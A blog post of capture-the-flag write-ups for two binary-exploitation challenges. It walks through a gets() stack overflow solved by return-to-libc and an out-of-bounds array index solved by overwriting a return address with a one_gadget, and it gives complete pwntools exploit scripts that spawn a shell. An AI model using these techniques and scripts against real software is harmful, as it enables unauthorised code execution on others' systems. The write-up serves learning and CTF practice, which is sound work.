

The write-ups for these couple challenges are quite late (this CTF happened from April 21 to April 23 2023), however, I wanted to start a blog documenting my CTF write-ups. 

The SpaceHeroes CTF put on by FITSEC over at Florida Tech was a really fun CTF and I am happy that I contributed the solve to `Engine Failure`. `Cardassian Targeting System II` was originally solved by another member of my team and I decided to revisit it and solve it myself **a few weeks after the competition ended.** 

Without further ado, let's hop in.

# "Engine Failure" | Category: Pwn
From the author, we are given a binary and a  glibc library `libc.so.6` file to download. The appearance of a libc file suggests that we might have to perform a return to libc attack to spawn a shell. But first, let's have a look at some of the protections on the binary. Checksec can be used to view any protections that the binary was compiled with. 


We can see that Partial RELRO has been enabled so the Global Offset Table is writable should we need it. No Canary found so a buffer overflow should be trivial if the program allows for it. No PIE so the memory addresses will be the same each time the program is run. NX is enabled which means no shellcode off the stack. The lack of protections leaves a few exploit paths open to us but let's have a look at the binary itself to see what it is doing. 

Upon execution, we are provided with a menu. 


Let's go through each option to see if we can find out what each is doing. In order to do this, we can look at the disassembly in Ghidra. Let's look at the first option. 

```c
if (local_c < 4) {
    if (local_c == 1) {
        puts("\n\nChoose an option:");
        puts("1) Back to Earth");
        puts("2) Satellite");
        __isoc99_scanf(&DAT_00402386,&local_10);
        if (local_10 == 1) {
          vuln("write a msg you want to send >>> ");
        }
        else if (local_10 == 2) {
          puts("Connecting to satellite......");
          sleep(3);
          printf("connection failed......");
          sleep(1);
        }
        else {
          puts("Invalid option.");
        }
```

If we select `1` we can either choose "1) Back to Earth" or "2) Satellite". The "Satellite" choice does nothing, but if we select "Back to Earth" we are prompted with a message and the `vuln()` function is called. The contents of the `vuln()` function are as follows. 

```c
void vuln(char *param_1)

{
  char local_28 [32];
  
  puts(param_1);
  gets(local_28);
  gets(local_28);
  return;
}
```

It appears a buffer size of 32 bytes is being defined and the vulnerable `gets()` function is being called. `gets()` doesn't check for the size of the buffer, so we can provide as much input as we want. This will allow for  a buffer overflow and will allow us to gain control of the program. We can see this in action in `gdb`. By passing a De Bruijn sequence to the program we can see exactly where the program crashes. 


As you can see, by passing a De Bruijn sequence of 50 characters, we can see that it will take 40 characters until we reach the RIP. 

Now, once we overflow the buffer, gain control of the instruction pointer, what do we do next? There is no `win()` function to return to so we'll have to use a return2libc style attack. This will involve redirecting program execution to the `system()` function within the given glibc library with `/bin/sh` as its argument to spawn a shell. However due to ASLR, we will need a libc leak (an address within libc at runtime) to calculate the base of libc and call system in the first place. Let's see if there's anything in the program that can help us achieve that. 

When we select menu option 2, "2) What's in the database", an address is spit out at us and is different each time. From the look of it (0x7f bla bla bla) it look like an address in libc, but what address? Well, looking at the disassembly in Ghidra, it appears when option 2 is selected, it spits out the libc  address of `puts()`. 

```c
	else {
	    if (local_c != 2) goto LAB_0040146f;
	    printf("Coordinates: %p\n",puts);
      }
```

This is very helpful because we can grab the offset of the `puts()` function from the provided libc library. We can take the leak - the offset and we will get the libc base address. 

So let's stop here and see what we've got so far. We can get a libc leak to find the base of libc at runtime and we have control over program execution via a buffer overflow. The exploit will be something like this; grab the `puts()` address, calculate the base of libc, overflow the buffer to gain control of the instruction pointer and make it point to the address of `system()` with a pointer to the string `/bin/sh` as the first argument. This string can be found in the libc library we are given and can be easily grabbed since we'll have the base address. Most of this can be automated with pwntools, but let's have a look at how we can ensure `/bin/sh` is the first argument when `system()` is called. 

Because x86_64 calling conventions dictate that the the first argument must be stored in the RDI register when a function is called, we must get `/bin/sh` into the RDI register. This can be done with something called a ROP gadget. Specifically something like  `pop rdi; ret`. ROP gadgets can be found using a tool called ROPGadget. A search doesn't yield any useful ROP gadgets in the program itself, but we can look in the libc library we are provided. 

```bash
ROPGadget --binary libc.so.6 | grep "pop rdi"
```

True enough this yields a `pop rdi; ret` gadget which is just what we needed. We can now start to throw together a pwntools script to solve this challenge. First I wrote a function to grab the `puts()` leak. 

```python
def grab_leak():
        p.sendline(b'2')
        x = p.recvuntil(b'Coordinates: ')
        y = p.recv()
        recieved = y.split(b'\n')
        leak = recieved[0]
        print(recieved)
        leak_int = int(leak, 16)
        leak_hex = hex(leak_int)
        print(f'Puts leak @ {leak_hex}')
        return leak_int

puts_leak = grab_leak()
```

Then we can use pwntools to automate finding the libc base address and the address of system. 

```python
puts_offset = libc.symbols['puts']

libc_base = puts_leak - puts_offset
libc.address = libc_base
```

We can also use pwntools to grab the address of the string `/bin/sh` within the `libc.so.6` file we were provided. 

```python
binsh = p64(next(libc.search(b'/bin/sh\x00')))
```

The sent payload will look like the following:

```python
payload = flat([
        offset * 'a',
        pop_rdi,
        binsh,
        ret,
        system_addr
 ])
p.sendline(payload)


p.interactive()
```

We send our junk to smash the stack, our `pop rdi; ret` instruction is then executed to pop our `/bin/sh` string into the RDI register. Then we use a `ret` gadget to ensure the stack is 16 byte aligned. Finally we call the system function to get a shell. We'll send this payload off and then go into interactive mode so we can interact with the shell we just popped. 

The full exploit is as follows. 

```python
from pwn import *
elf = context.binary = ELF("engine_failure_patched")
libc = ELF('libc.so.6')

p = elf.process()
#p = remote("spaceheroes-engine-failure.chals.io",443,ssl=True,sni="spaceheroes-engine-failure.chals.io")
offset = 40

def grab_leak():
	p.sendline(b'2')
	x = p.recvuntil(b'Coordinates: ')
	y = p.recv()
	recieved = y.split(b'\n')
	leak = recieved[0]
	print(recieved)
	leak_int = int(leak, 16)
	leak_hex = hex(leak_int)
	print(f'Puts leak @ {leak_hex}')
	return leak_int

puts_leak = grab_leak()

puts_offset = libc.symbols['puts']

libc_base = puts_leak - puts_offset
libc.address = libc_base

system_addr = libc.symbols.system

print(f'puts_offset @ {hex(puts_offset)}')
print(f'libc base @ {hex(libc.address)}')
print(f'system @ {hex(system_addr)}')

pop_rdi = libc.address + 0x000000000002a3e5

binsh = p64(next(libc.search(b'/bin/sh\x00')))
print(f'binsh @ {hex(u64(binsh))}')

ret = 0x0000000000401016

p.sendline(b'1')
p.sendline(b'1')
payload = flat([
 	offset * 'a',
 	pop_rdi,
 	binsh,
	ret,
 	system_addr
 ])
p.sendline(payload)

p.interactive()
```

# "Cardassian Targeting System II" | Category: Pwn
From the author we get an executable and a `libc-2.31.so` libc library to work with. The first thing to do would be to run `checksec` on the program and see what protections are in place. 


Welp, full protections. This means no overwriting the GOT, we'd have to bypass the canary for a buffer overflow, no shellcode off the stack, and all memory addresses are random. Let's hope the nature of the program will help us bypass some of these protections. 

When running the program, an opportunity to enter our name and then we are presented with a menu. 


It looks like we've got four menu options. We can either enter all coordinates (up to 10 coordinates) we can list those 10 coordinates, modify a specific set of coordinates, or list a specific set of coordinates. Let's jump into GDB and Ghidra to get some info on how the program is laid out. GDB tells us that there are a few functions of use, `main()`, `print_menu()`, `performAction()`. 

According to Ghidra, the `main()` function will take our intro question (which doesn't really do anything) and then enter an infinite loop printing the menu using the `print_menu()` function and then based on our input, the `performAction()` function will, well, perform one of the menu actions. 

```c
void main(void)
{
  long in_FS_OFFSET;
  undefined4 choice;
  char *intro;
  undefined local_68 [88];
  undefined8 local_10;
  
  local_10 = *(undefined8 *)(in_FS_OFFSET + 0x28);
  print_art();
  putchar(10);
  intro = (char *)malloc(0x40);
  printf("Please enter your name and rank >>> ");
  fgets(intro,0x40,stdin);
  printf("\nWelcome back, %s\n",intro);
  do {
    print_menu();
    __isoc99_scanf(&DAT_00101e5b,&choice);
    getchar();
    performAction(choice,local_68);
  } while( true );
}
```

Before we dive into the menu actions, lets take a look at what is happening when we enter target coordinates. To do this let's have a look at the assembly code of the `performAction()` function. 


We can deduce that the `cmp` instructions followed by `je` instructions are comparing our input and then jumping to the appropriate code to perform the action. An `if` condition, if you will. In order to see what happens when we enter all target coordinates, which is option `1`, we can find the line `cmp eax, 0x1`. When this is true, it will jump to `performAction() + 86`. This will be the start of the code for option one. Now let's have a look around that area and see if we can find where the program goes when the program finishes that action. 


The lines that catch my attention are `performAction() + 160` to `performAction() + 170`. First we are adding 1 to a section of memory then we are comparing it to 0x9. Then based on that we either jump back to `performAction() + 95` or we go to `performAction() + 456`. This to me looks like a loop and matches the C disassembly in Ghidra. Therefore we can assume that when the loop is finished and we are done entering in all of the targets, the program will go to `performAction + 456`. So, let's set a break point there and inspect the state of the program after we have entered in coordinates. 

```bash
break *(performAction + 456)
run
```

After the break point is set and the program is ran, we select menu option 1 and for the ten targets, enter in a number 0-9, respectively. After we do that we hit our break point. Nothing seems suspicious straight away, so let's inspect the contents of the stack using the command `stack 25` to print off the first 25 elements of the stack. 


Huh, it looks like our coordinates have been stored on the stack! Remember, we can also modify the coordinates or read a coordinate based on a given index. And now that we know the coordinates are on the stack, could we maybe read or write to an index greater than 10 or less than 10? This could allow us to write to or read from elements on the stack! As it turns out, based on what we see in Ghidra, the code modifying a coordinate or reading a coordinate does not check for indices greater than or less than 10. **Here lies our critical vulnerability.** 

```c
                    /* Modify Targets */
    if (param_1 == 3) {
      printf("Which target will you modify? >>> ");
      __isoc99_scanf(&DAT_00101e5b,&local_1c);
      printf("New coordinates for Target %d >>> ",(ulong)local_1c);
      __isoc99_scanf(&DAT_00101e23,param_2 + (long)(int)local_1c * 8);
      goto LAB_00100e01;
    }
```

```c
                    /* List single target */
    if (param_1 == 4) {
      printf("Which target will you list? >>> ");
      __isoc99_scanf(&DAT_00101e5b,&local_1c);
      printf("Target %d is at these coordinates: %ld\n",(ulong)local_1c,
             *(undefined8 *)(param_2 + (long)(int)local_1c * 8));
      goto LAB_00100e01;
    }
```

Our exploit path will be the following. Leak a libc value, calculate the base of libc, and then overwrite the return address of the `performAction()` function so that when it returns, it does not go back to `main()` but to a `one_gadget` that will spawn a shell. Let's get to it. 

The above picture is our stack layout. 0x9 was what we entered as coordinate number 10, so that is our 9th index since we start at 0. The tenth index is 0x1, the 11th index by the look of it, is our stack canary, the 12th index is 0x0, and the 13th index is the address of `__libc_start_main + 243`.  This is the libc address we will leak to calculate the base of libc. We'll use this because it'll be the same every time the program runs which mean we can be certain it will always yield the correct base address. Using pwntools, we can write a simple function to leak and parse this address and then calculate the base of libc. 

```python
def print_target(target):
    p.sendline(b'4')
    p.sendline(target)
    p.recvuntil(b'at these coordinates: ')
    addr = p.recvline()
    addr = addr.rstrip(b'\n')
    addr = int(addr)
    return addr 
libc_addr = print_target(b'13')

libc_start_main = libc_addr - 243
libc.address = libc_start_main - libc.symbols['__libc_start_main']
```

Now that we have our libc base address we can look to overwrite the return address of the `performAction()` function to point to our potential `one_gadget`. Based on the above stack layout, if we're treating the first coordinate as our 0 index, the return address of `performAction()` is `main() + 178` and is located at index -3. So now we know where to send our `one_gadget`, but how do we find our `one_gadget`? Thankfully there is a tool for this! Check it out here: https://github.com/david942j/one_gadget. Running it on the libc we are given yields the following gadgets.



Now we can try each of these gadgets to see if they in fact spawn a shell. In order to write the address of the `one_gadget` to spawn a shell, we can write a simple function. 

```python
def write_target(target, contents):
    p.sendline(b'3')
    p.sendline(target)
    p.sendline(contents)
    
one_gadgets = [0xe6c7e, 0xe6c81, 0xe6c84]
shell = str(libc.address + one_gadgets[1]).encode()    

write_target(b'-3', shell)
p.interactive()
```

And the second gadget worked and we get a shell! Awesome! If you want, to see why the first gadget didn't work, you can attach GDB to the program using pwntools and break at the point the `one_gadget` is called. Then, you can inspect the registers to see what constraints are or aren't satisfied. The final exploit script looks like this. 

```python
from pwn import *
import pwnlib

elf = context.binary = ELF('chall_patched')
libc = context.binary = ELF('libc.so.6')
p = process(['./ld-2.31.so', './chall_patched'])
gdb_script = """
init-pwndbg
piebase
break *performAction 
"""
# pwnlib.gdb.attach(p, gdb_script)

# p.sendline(b'bruhwhat')

def print_target(target):
    p.sendline(b'4')
    p.sendline(target)
    p.recvuntil(b'at these coordinates: ')
    addr = p.recvline()
    addr = addr.rstrip(b'\n')
    addr = int(addr)
    return addr 

def write_target(target, contents):
    p.sendline(b'3')
    p.sendline(target)
    p.sendline(contents)

p.recv()
p.sendline(b'urmom')
libc_addr = print_target(b'13')
print(f'libc_start_main + 243 @ {hex(libc_addr)}')

libc_start_main = libc_addr - 243
libc.address = libc_start_main - libc.symbols['__libc_start_main']
print(f'Libc base @ {hex(libc.address)}')

one_gadgets = [0xe6c7e, 0xe6c81, 0xe6c84]
shell = str(libc.address + one_gadgets[1]).encode()    

# gdb_script = "init-pwndbg\n" + f"break *{hex(int(shell))}"
# pwnlib.gdb.attach(p, gdb_script)
write_target(b'-3', shell)


p.interactive()
```
